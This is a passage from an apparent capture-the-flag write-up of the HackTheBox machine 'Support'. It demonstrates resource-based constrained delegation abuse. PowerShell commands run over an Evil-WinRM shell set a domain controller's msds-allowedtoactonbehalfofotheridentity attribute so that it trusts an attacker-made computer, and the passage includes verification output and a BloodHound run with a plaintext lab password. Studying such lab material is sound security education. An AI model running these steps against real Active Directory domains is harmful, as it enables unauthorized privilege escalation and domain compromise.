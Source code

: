 #### Attack

Now I’ll configure the DC to trust my fake computer to make authorization decisions on it’s behalf. These commands will create an ACL with the fake computer’s SID and assign that to the DC:

```
*Evil-WinRM* PS C:\programdata> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($fakesid))"
*Evil-WinRM* PS C:\programdata> $SDBytes = New-Object byte[] ($SD.BinaryLength)
*Evil-WinRM* PS C:\programdata> $SD.GetBinaryForm($SDBytes, 0)
*Evil-WinRM* PS C:\programdata> Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

```

I’ll verify it worked:

```
*Evil-WinRM* PS C:\programdata> $RawBytes = Get-DomainComputer DC -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
*Evil-WinRM* PS C:\programdata> $Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0
*Evil-WinRM* PS C:\programdata> $Descriptor.DiscretionaryAcl

BinaryLength       : 36
AceQualifier       : AccessAllowed
IsCallback         : False
OpaqueLength       : 0
AccessMask         : 983551
SecurityIdentifier : S-1-5-21-1677581083-3380853377-188903654-1121
AceType            : AccessAllowed
AceFlags           : None
IsInherited        : False
InheritanceFlags   : None
PropagationFlags   : None
AuditFlags         : None

```

There is an ACL with the `SecurityIdentifier` of my fake computer and it says `AccessAllowed`.

I can also re-run Bloodhound now:

```

oxdf@hacky$ bloodhound-python -c ALL -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -d support.htb -ns 10.10.11.174
...[snip]...
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: 0xdfFakeComputer.support.htb
INFO: Querying computer: dc.support.htb
WARNING: Could not resolve: 0xdfFakeComputer.support.htb: The DNS query name does not exist: 0xdfFakeComputer.support.htb.
INFO: Done in 00M 14S

```
